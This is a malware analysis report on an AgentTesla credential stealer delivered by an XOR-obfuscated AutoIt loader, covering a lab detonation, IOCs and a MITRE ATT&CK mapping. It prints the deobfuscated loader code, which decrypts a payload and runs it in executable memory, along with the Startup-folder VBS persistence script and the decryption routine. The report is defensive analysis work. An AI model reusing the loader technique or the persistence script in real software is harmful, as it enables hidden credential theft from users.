

# Agent Tesla Malware Analysis Report
**Author:** Nikola Marković  
**Date:** 2025-08-21                                                                                        
**Version:** v1.0

_This report is based on manual dynamic and static analysis conducted in an isolated lab environment._

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)  
2. [Scope & Methodology](#2-scope--methodology)  
3. [Lab Topology](#3-lab-topology)  
4. [Detonation VM OS and Patch Information](#4-detonation-vm-os-and-patch-information)  
5. [File Metadata & Version Info](#5-file-metadata--version-info)  
6. [Static Analysis Summary](#6-static-analysis-summary)  
   - [String Analysis (FLOSS)](#61-string-analysis-floss)  
   - [Capabilities vs. Observed Behavior](#62-capabilities-vs-observed-behavior)  
7. [Dropped Components](#7-dropped-components)  
8. [Summary of Observed Behavior](#8-summary-of-observed-behavior)  
9. [Persistence](#9-persistence)  
10. [Network Activity - Stage 2 (RegSvcs.exe)](#10-network-activity---stage-2-regsvcsexe)  
11. [Keylogging behavior (RegSvcs.exe) - API Monitor](#11-keylogging-behavior-regsvcsexe---api-monitor)  
12. [Indicators of Compromise (IOCs)](#12-indicators-of-compromise-iocs)  
13. [Conclusion](#13-conclusion)  
14. [MITRE ATT&CK Mapping](#14-mitre-attck-mapping)
15. [Limitations & Future Work](#15-limitations--future-work)
16. [Appendices](#16-appendices)
    - [Appendix A - Complete Execution Timeline](#appendix-a---complete-execution-timeline)  
    - [Appendix B - Deobfuscation of the AutoIt Script](#appendix-b---deobfuscation-of-the-autoit-script)  

---

## 1. Executive Summary

This report analyzes an AutoIt-based loader that delivers an AgentTesla credential-stealing payload.                                                        
The loader decrypts its secondary component directly in memory, injects it into RegSvcs.exe, and enables credential harvesting from browsers, email clients, FTP applications, and messaging services.        
It establishes persistence by creating a .vbs script in the Windows Startup folder to ensure execution on reboot.                                           
In the controlled lab environment, outbound SMTP traffic was blocked while HTTPS was permitted.                                                                       
The malware attempted HTTPS connections to api.ipify.org (failed to complete a session) and made repeated SMTP exfiltration attempts to Yandex mail servers, which were blocked by the firewall.              
Despite the failed exfiltration, the malware’s credential theft and keylogging functionality remained fully operational on the host.                       

---

## 2. Scope & Methodology

### Purpose

- Document observable behavior from detonation to persistence.
- Capture full process creation/termination sequences.
- Map observed techniques to MITRE ATT&CK.

### Lab Environment

- **Microsoft Windows 10 Enterprise Evaluation (Version 22H2, OS Build 19045, FlareVM)** – malware detonation VM, patched, Windows Defender Antivirus and Windows Firewall disabled.
- **Microsoft Windows 10 Enterprise Evaluation (Version 22H2, OS Build 19045, Clean)** – clean VM connected to the same network, Windows Defender Antivirus and Windows Firewall disabled.
- **pfSense Firewall VM** – mediates all outbound traffic, configurable rules (DNS/HTTP/S only, ICMP, LAN-to-LAN, or full block). WAN interface connected through NAT.
- **REMnux VM** – positioned as a transparent bridge (Layer 2 between CLIENT_NET and FW_NET) between malware VM and pfSense. Runs TShark to capture all packets; invisible to malware.

**VirtualBox Networking** 

  -  **CLIENT_NET** (Internal Network): Windows VMs ↔ REMnux.
  -  **FW_NET** (Internal Network): REMnux ↔ pfSense LAN.
  -   pfSense LAN subnet: 192.168.1.0/24, DHCP enabled.
  -   pfSense WAN NIC: NAT towards host.
 
**Connectivity Controls**

- **Run 1 (Safe):** Block all outbound internet. Allow only LAN-to-LAN, DNS, optional ICMP.  
- **Run 2 (Restricted):** Run 1 + HTTP/S (closely monitored).  
- No full "allow all" stage was used, to prevent risk of botnet participation or worm propagation.

### Tools Used

**Static Analysis:** Detect It Easy, PEStudio, FLOSS, capa, 7-Zip, PowerShell, AutoIt-Ripper/Loader                                             
**Dynamic Analysis:** Process Monitor, TCPView, Wireshark/TShark, Regshot, Autoruns, API Monitor

---

## 3. Lab Topology

 
*VMs are hosted in Oracle VirtualBox*

---

## 4. Detonation VM OS and Patch Information
- **OS:** Microsoft Windows 10 Enterprise Evaluation
- **Build:** 22H2 (OS Build 19045.2006)
- **Architecture:** x64
- **Status:** Fully patched, SMBv1 manually enabled
- **Installed Updates:** KB5017022, KB5015684, KB5015020, KB5015878, KB5017308, KB5016705

---

## 5. File Metadata & Version Info

### Main Sample (hereafter referred to as main_sample.exe)
- **SHA256:** 45d6ccb917bd3b9333316262ebcd56caa515385f9c2b387417ee8152a1fe798a
- **File type:** Executable, 32-bit, GUI
- **Compiler:** Microsoft Visual C++ 6.0–8.0, Visual Studio 2012
- **Compile timestamp:** Wed Jul 30 23:52:50 2025 
- **Signature:** AutoIt compiled script 
- **Size:** ~1.26 MB 
- **Entropy:** 7.093 
- **Entry Point:** 0x00025F74 (.text section)
- **Requested Execution Level:** "asInvoker" (runs with same privileges as user)

---

## 6. Static Analysis Summary

**Type:** AutoIt-compiled loader → executes embedded payload

---

### Obfuscation & Masquerading
- Rolling XOR decoding for  names, constants, and payload
- Randomized variable and function names
- Dead "noise" code, decoy  calls, fake URLs
- **Embedded Excel icon in resources** to masquerade as an Office document, despite being an executable
 
---

### Real Execution Path *(from decoded AutoIt)*
1. Drops **Archimago** & **complacence** into `%TEMP%`.
2. Decrypts **Archimago** with custom rolling XOR (`KOGMOFDJ`).
3. Allocates **RW memory** → marks **RX** (`VirtualProtect`) → executes payload via `CallWindowProc`.
4. Transfers control to **stage-2 payload** in memory.

---

### Dead Code Purpose
Inflates string surface + misleads static analysis.

---

### Key Decoded Strings
- `GetProcessHeap`
- `HeapAlloc`
- `VirtualProtect`
- `CallWindowProc`
- `DllStructCreate`

---

### Capabilities *(from capa + PEStudio)*
- Registry **Run-key persistence** *(not observed during dynamic analysis)*
- **Process injection** + remote thread creation
- **HTTP/SMTP** communications
- **Credential harvesting**
- **Anti-analysis** techniques *(WOW64 disable, process enumeration)*

---

### Deobfuscated Code Extracted from `main_sample.exe`

```
FileInstall ( "Archimago" , @TempDir & "\Archimago" , 1 )
Global $RDEVAVC = KOGMOFDJ ( FileRead ( @TempDir & "\Archimago" ) )
FileInstall ( "complacence" , @TempDir & "\complacence" , 1 )
Global $WJORKAPW = DllCall ("kernel32.dll", "ptr", "GetProcessHeap") [ 0 ]
Global $JIVEKJU = DllCall ("kernel32.dll", "ptr", "HeapAlloc", "ptr", $WJORKAPW , "dword", 0 , "dword", BinaryLen ( $RDEVAVC ) ) [ 0 ]
DllStructSetData ( DllStructCreate ("byte[" & BinaryLen ( $RDEVAVC ) & "]" , $JIVEKJU ) , 1 , $RDEVAVC )
DllCall ( "kernel32.dll", "bool", "VirtualProtect", "ptr", $JIVEKJU , "dword", BinaryLen ( $RDEVAVC ) , "dword", 0x40, "dword*", 0 )
DllCall ( "user32.dll", "ptr", "CallWindowProc" , "ptr", $JIVEKJU + 9200 , "ptr", 0 , "ptr", 0 , "ptr", 0 , "ptr", 0 )

```
This decoded AutoIt snippet shows the core loader functionality:
1. **Extract & decrypt**: `Archimago` is extracted to `%TEMP%` and decrypted in‑memory into `$RDEVAVC`.  
2. **Allocate**: Memory for the payload is obtained via the Windows heap APIs (`GetProcessHeap` → `HeapAlloc`).  
3. **Write**: The decrypted  payload is copied into the buffer (`DllStructSetData`).  
4. **Make executable**: `VirtualProtect` switches the region to `PAGE_EXECUTE_READWRITE` (`0x40`).  
5. **Execute**: The payload is invoked by calling an **entrypoint within the buffer** (offset `9200` bytes) using `CallWindowProc`, a common trampoline to run shellcode/PE stubs in memory.

**For detailed deobfuscation of the AutoIt loader, see **[Appendix B - Deobfuscation of the AutoIt Script](#appendix-b---deobfuscation-of-the-autoit-script)****

---

### 6.1. String Analysis (FLOSS)

**Tool Used:** [FLOSS](https://github.com/mandiant/flare-floss)  
**Findings:**
- The main sample (`main_sample.exe`) is an **AutoIt-compiled loader**.
- Most decoded strings are **misleading or noise**, including:
    - AutoIt runtime markers: `">>>AUTOIT SCRIPT<<<"`, `"This is a third-party compiled AutoIt script"`.
    - Fake/unused URLs: e.g., `htttp://deriU.io`, `htttp://mQhuFGoCb.io`.
    - AutoIt GUI/runtime messages and random variables.
- FLOSS identified many **WinINet  calls** (`InternetOpen`, `InternetConnect`, `HttpOpenRequest`) and **FTP functions** (`FtpOpenFile`, `FtpGetFileSize`), suggesting HTTP(S)/FTP exfiltration support.
- It also revealed indicators of:
    - Registry interaction s (`RegCreateKeyExW`, `RegSetValueExW`, etc.).
    - Token manipulation APIs (`LogonUserW`, `DuplicateTokenEx`).
    - Process injection APIs (`VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`).
    - Sandbox evasion hints (e.g., `Wow64DisableWow64FsRedirection`).

**Limitations:**
- No useful IOCs or config strings recovered.
- Likely because **Archimago** (stage-2 payload) and other key resources are **runtime-decrypted**.
- Requires dynamic analysis to extract real indicators.

---

### 6.2. Capabilities vs. Observed Behavior

| Capability               | Detected Statically                                | Observed Dynamically              | Notes |
|--------------------------|----------------------------------------------------|-----------------------------------|-------|
| Registry Run Key Persistence | capa / PEStudio                                    | Not triggered                     | Used Startup `.vbs` instead |
| Process Injection        | AutoIt script (`HeapAlloc`, `CallWindowProc`)     | Confirmed in RegSvcs.exe          | Core execution path |
| Keylogging               | API indicators (`GetKeyState`, `SetWindowsHookEx`) | Confirmed via API Monitor         | Active during RegSvcs.exe runtime |
| HTTPS Beaconing          | WinInet APIs                                       | Attempted → `api.ipify.org`       | Session failed |
| SMTP Exfiltration        | SMTP/WinInet APIs                                  | Attempted → Blocked               | Targeted Yandex servers |
| Credential Harvesting    | capa                                               | Confirmed                         | Browsers, Discord, FTP, etc. |
| Token Manipulation       | Strings (`LogonUserW`, `DuplicateTokenEx`)         | Not observed                      | Possible dormant capability |
| Sandbox Evasion          | Strings (`Wow64DisableWow64FsRedirection`) + dead code | Not observed                  | Likely decoy/unused |

---

## 7. Dropped Components

- **`endochylous.exe`** – SHA256: 45d6ccb917bd3b9333316262ebcd56caa515385f9c2b387417ee8152a1fe798a (a copy of the main executable)
- **`endochylous.vbs`** – SHA256: 3f3da4f8c6303ecab6929a9a852460fac7b2d66a00edcb5a2a23b236e6600deb
- **`complacence`** – SHA256: 2075b64d89b4c20daa2b08665de742b864cfe864a5fd81faa7db07e8942600c5
- **`Archimago`** – SHA256: de793a6553823e66311903b353d4be2027e21952f6bf6ad683e553f2fcf31844 
- **`autEF34.tmp`** – temporary files with "randomly" generated name

---

## 8. Summary of Observed Behavior

### The following summary illustrates the execution chain observed during detonation:

High-Level Flow:
```
Stage 1 (main_sample.exe)
   → decrypts Archimago + writes short-lived files to %LOCALAPPDATA%\Temp.
   → repeatedly reads complacence + .tmp artifacts before spawning next stage.

Persistence Copy (endochylous.exe)
   → identical binary to main_sample.exe, dropped under a new name.
   → installs persistence (endochylous.vbs in Startup).
   → spawns RegSvcs.exe with injected payload.

Stage 2 (RegSvcs.exe, abused .NET binary)
   → credential harvesting (browsers, mail, FTP, VPN, DB, Discord).
   → probes certificate stores, policy keys, hosts file.
   → performs WMI reconnaissance (system, process, user queries).
   → establishes keylogging capability via keyboard hooks.
   → supports dual exfiltration: HTTP POST (WinInet) and SMTP (Yandex).

```

For a detailed execution timeline (with timestamps and full process tree), see **[Appendix A - Complete Execution Timeline](#appendix-a---complete-execution-timeline)**

---

## 9. Persistence

### `endochylous.vbs` in the Startup folder contains:
```
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\Users\**\AppData\Local\troopwise\endochylous.exe, 1
Set WshShell = Nothing
```
 

---

## 10. Network Activity - Stage 2 (RegSvcs.exe)

### DNS Resolution
- `api.ipify.org` → 172.67.74.152 (Cloudflare edge)
- `smtp.yandex.com` (CNAME `smtp.yandex.ru`) → 77.88.21.158
- rDNS of 77.88.21.158 → `mail-smtp.stable.qcloud-b.yandex.net`

### Observed Connections
| Timestamp (approx) | Destination                         | Port | Protocol | Purpose / Notes |
|--------------------|-------------------------------------|------|----------|----------------|
| 09:43:49           | 172.67.74.152                       | 443  | HTTPS    | Attempted connection to `api.ipify.org` → external IP check / potential beacon. |
| 10:04–10:44        | mail-smtp.stable.qcloud-b.yandex.net | 587  | SMTP     | Repeated TCP connection attempts (SYN retransmissions, no SYN-ACK observed). Indicates blocked email exfiltration attempt. |

### Assessment
- RegSvcs.exe attempted HTTPS to `api.ipify.org` (Cloudflare-hosted). This behavior is consistent with external reconnaissance (retrieving the victim’s public IP).
- Persistent SMTP submission attempts were directed at Yandex mail servers (`mail-smtp.stable.qcloud-b.yandex.net:587`).
- In the lab, no successful SMTP session was established due to outbound restrictions.

 

 

---

## 11. Keylogging behavior (RegSvcs.exe) - API Monitor

- The injected .NET assembly initializes a hidden message window (RegisterClassExW → CreateWindowExW).
- It runs a standard message pump (GetMessageW/PeekMessageW → TranslateMessage → DispatchMessageW).
- During runtime it repeatedly calls GetKeyState/GetKeyboardState for modifier keys alongside GetForegroundWindow to tag the active application.
- Presence of CallNextHookEx indicates a keyboard hook is installed.
- Around initialization the process also attempted network operations:
  - WinHTTP/WinInet API calls (e.g., WinHttpOpen) consistent with HTTPS beaconing (such as the earlier attempt to api.ipify.org).
  - Low-level Winsock calls (WSAConnect, send) consistent with direct SMTP exfiltration attempts to Yandex.
  - In the lab these Winsock calls returned SOCKET_ERROR, indicating the connections were blocked.

 

---

## 12. Indicators of Compromise (IOCs)

### Files & Paths
| Artifact          | Path / Name                         | SHA256                                   |
|------------------|-----------------------------------|----------------------------------------|
| Loader           | main_sample.exe                   | 45d6ccb917bd3b9333316262ebcd56caa515385f9c2b387417ee8152a1fe798a |
| Dropped EXE      | endochylous.exe                   | Same as loader |
| VBS Persistence  | endochylous.vbs                   | 3f3da4f8c6303ecab6929a9a852460fac7b2d66a00edcb5a2a23b236e6600deb |
| Payload          | Archimago                         | de793a6553823e66311903b353d4be2027e21952f6bf6ad683e553f2fcf31844 |
| Payload Support  | complacence                       | 2075b64d89b4c20daa2b08665de742b864cfe864a5fd81faa7db07e8942600c5 |

### Network Indicators
| Domain / IP | Purpose | Port | Notes |
|------------|--------|------|-------|
| api.ipify.org | HTTPS beacon | 443 | Cloudflare edge |
| smtp.yandex.com | SMTP exfil | 587 | CNAME → smtp.yandex.ru |
| mail-smtp.stable.qcloud-b.yandex.net | SMTP exfil | 587 | Observed SYN retries |

### Behavioral Indicators (Detection Opportunities)

| Category           | Indicator / Behavior | Notes |
|--------------------|----------------------|-------|
| Masquerading       | Excel-style icon embedded in resources | Misleads user into believing file is an Office document |
| Process Abuse      | `RegSvcs.exe` running with injected payload | Abnormal usage (normally only for .NET registration) |
| Keylogging APIs    | `GetKeyState`, `GetKeyboardState`, `CallNextHookEx` | Observed via APIMonitor under `RegSvcs.exe` |
| Persistence        | Dropped `endochylous.vbs` in Startup folder | Ensures execution at logon |

---

## 13. Conclusion

This AgentTesla sample uses an AutoIt-based loader to decrypt and execute a credential-stealing payload in memory.  
Its capabilities include credential harvesting, keylogging, HTTPS beaconing, and SMTP-based data exfiltration.  
Dynamic analysis showed injection into `RegSvcs.exe` and repeated exfiltration attempts to Yandex mail servers, which failed due to outbound restrictions in the lab.
If undetected, this malware would allow long-term credential theft and continuous exfiltration.

**Recommendations:**
- Block outbound traffic to suspicious SMTP/HTTPS endpoints.
- Monitor for unusual `RegSvcs.exe` process activity.
- Watch for dropped artifacts (`Archimago`, `complacence`, `endochylous.vbs`).
- Deploy behavioral detections focusing on keylogging and WinInet usage.

## 14. MITRE ATT&CK Mapping

| Tactic          | Technique ID | Technique Name                                   | Observed |
|-----------------|--------------|-------------------------------------------------|----------|
| Initial Access | T1204.002 | User Execution: Malicious File | Execution of loader `main_sample.exe`, masquerading with Excel icon |
| Execution       | T1059.010    | Command and Scripting Interpreter: AutoIt       | main_sample.exe loader |
| Execution       | T1059.005    | Command and Scripting Interpreter: Visual Basic | endochylous.vbs persistence script |
| Persistence     | T1547.001    | Boot or Logon Autostart Execution: Startup Folder | endochylous.vbs in Startup |
| Defense Evasion | T1027        | Obfuscated Files or Information                 | XOR + dead code in AutoIt |
| Defense Evasion | T1036        | Masquerading                                    | RegSvcs.exe abuse. Embedded Excel icon to mislead users into running an executable |
| Credential Access | T1555      | Credentials from Web Browsers                   | RegSvcs.exe enumerating browser and credential registry keys |
| Collection      | T1056.001    | Input Capture: Keylogging                       | APIMonitor logs |
| Command & Control | T1071.001  | Application Layer Protocol: Web Protocols       | `api.ipify.org` |
| Command & Control | T1071.003  | Application Layer Protocol: Mail Protocols      | SMTP → Yandex |

---

## 15. Limitations & Future Work

### Limitations
- Analysis performed in a controlled lab; behavior may differ in real-world environments (e.g., with unrestricted internet access).  
- Possible additional functionality may be hidden behind C2 communication that was not triggered.  
- Deobfuscation focused on the initial AutoIt loader; full reverse engineering of the AgentTesla payload was out of scope.  

### Future Work
- Expand analysis to full reverse engineering of the AgentTesla payload.  
- Test with a live C2 (via safe sinkholing) to confirm exfiltrated data formats.  
- Compare with other AutoIt-based loaders to identify code reuse patterns.  

---

## 16. Appendices

### Appendix A - Complete Execution Timeline

The following table documents process execution and key events observed during dynamic analysis. Full process tree available below.

| Timestamp        | Process / Event         | Description |
|------------------|-----------------|-------------|
| 09:43:44.9114923 | main_sample.exe | Initial detonation. |
| 09:43:44.9372589 | main_sample.exe | Enumerates language packs in `HKLM\System\CurrentControlSet\Control\MUI\UILanguages\`. |
| 09:43:44.9950606+| main_sample.exe | Drops **Archimago**, **autEF34.tmp**, and **complacence** into `%LOCALAPPDATA%\Temp` (encrypted payload components). |
| 09:43:45.6460512 | main_sample.exe | Drops **endochylous.exe** into `%LOCALAPPDATA%\troopwise\`. |
| 09:43:45.6515688 | main_sample.exe | Spawns **endochylous.exe** (PID 5608). Child repeats steps: language enumeration, creation of `.tmp` (autF262.tmp), and writing `complacence` + `Archimago` in `%Temp%`. |
| 09:43:45.6645533 | main_sample.exe | Exits. |
| 09:43:46.3453380 | endochylous.exe (PID 5608) | Drops **endochylous.vbs** into Startup folder (`%APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`). |
| 09:43:46.3464874 | endochylous.exe (PID 5608) | Spawns **RegSvcs.exe** (PID 6164). |
| 09:43:46.3468740 | endochylous.exe (PID 5608) | Spawns **endochylous.exe** (PID 6832) using `endochylous.exe` in command line. |
| 09:43:46.3468740 | endochylous.exe (PID 6832) | Spawns **RegSvcs.exe** (PID 8544) (**injected payload host**) |
| 09:43:46.3779250 | RegSvcs.exe (PID 6164) | Exits almost immediately (likely failed injection or decoy process). |
| 09:43:46.3847113 | endochylous.exe (PID 5608) | Exits. |
| 09:43:47.1282845 | endochylous.exe (PID 6832) | Exits. |
| 09:43:46–10:46:41   | RegSvcs.exe (PID 8544) | Active runtime (**injected payload**). Performs credential harvesting attempts (browsers, email, FTP, VPN, Discord). Probes certificate stores, policy keys, and hosts file. Initiates keylogging (*GetKeyState*, *GetKeyboardState*, *CallNextHookEx*). Attempts C2 connection via HTTPS (`api.ipify.org`) and SMTP (`smtp.yandex.com`). |
| 10:46:41.8930591 | RegSvcs.exe (PID 8544) | Terminated manually by analyst. |

 

---

### Appendix B - Deobfuscation of the AutoIt Script

#### Rolling XOR Function for Deobfuscation (found in `main_sample.exe`)

```
Func KOGMOFDJ ( $BNWMAXYE )
    Local $UEVNWOOE = 80
    Local $PDZMKVDKY = ""
    For $MWPSYCXY = 1 To StringLen ( $BNWMAXYE )
        Local $OICKPUY = Asc ( StringMid ( $BNWMAXYE , $MWPSYCXY , 1 ) )
        $PDZMKVDKY &= Chr ( BitXOR ( $OICKPUY , $UEVNWOOE ) )
        $UEVNWOOE = Mod ( $UEVNWOOE + 13 , 256 )
    Next
    Return $PDZMKVDKY
EndFunc
```

---

#### PowerShell Deobfuscation Method

```
function Decrypt-KOGMOFDJ { 
    param (
        [string]$ObfuscatedString 
    ) 
    $bytes = [System.Text.Encoding]::Default.GetBytes($ObfuscatedString) 
    $key = 80 
    $decrypted = "" 

    foreach ($byte in $bytes) { 
        $decrypted += [char]($byte -bxor $key) 
        $key = ($key + 13) % 256 
    } 
    return $decrypted 
}

$testStrings = @(
    ';8^X^Yáy-T-¡_3',
    ' )^X',
    "^W8^^'ö_yIE¶sº^I%",
    ";8^X^Yáy-T-¡_3",
    " )^X",
    "^X8^K^GÅyòÄU",
    " )^X",
    "4^E^Eà",
    "4^E^Eà",
    "2$^^^Rß",
    ";8^X^Yáy-T-¡_3",
    "22^E^[",
    "^F4^X^CñdòûEª▌º^I^I",
    " )^X",
    "4^E^Eà",
    "4^E^Eà",
    "%^G",
    "4^E^Eà»",
    "%.^O^E·£°IOc",
    " )^X",
    "^S<^F^[OodIx²,-ƒs",
    " )^X", " )^X", " )^X", " )^X", " )^X"
)

foreach ($str in $testStrings) { 
    $decrypted = Decrypt-KOGMOFDJ -ObfuscatedString $str 
    Write-Host "Obfuscated: '$str' -> Decrypted: '$decrypted'"
}


```
The string ``"`%^G"`` failed because PowerShell treats ` as an escape character.                                                                                                     
To solve this, a raw hex decryption approach was used instead:

```
function Decrypt-KOGMOFDJ-Raw {
    param (
        [byte[]]$Bytes
    )
    $key = 80
    $decrypted = ""
    foreach ($byte in $Bytes) {
        $decrypted += [char]($byte -bxor $key)
        $key = ($key + 13) % 256
    }
    return $decrypted
}
```

---


